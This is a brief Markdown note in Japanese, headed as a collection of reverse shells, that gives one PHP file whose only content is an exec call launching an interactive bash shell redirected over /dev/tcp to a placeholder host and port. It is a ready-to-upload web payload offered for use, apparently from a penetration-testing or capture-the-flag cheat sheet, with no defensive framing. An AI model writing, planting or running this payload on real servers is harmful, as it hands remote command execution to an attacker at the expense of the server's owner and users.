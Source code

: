 ## リバースシェル集

#### リバースシェル用のphpファイル  
``` 
<?php

exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/LocalIP/1234 0>&1'");

?> 
```

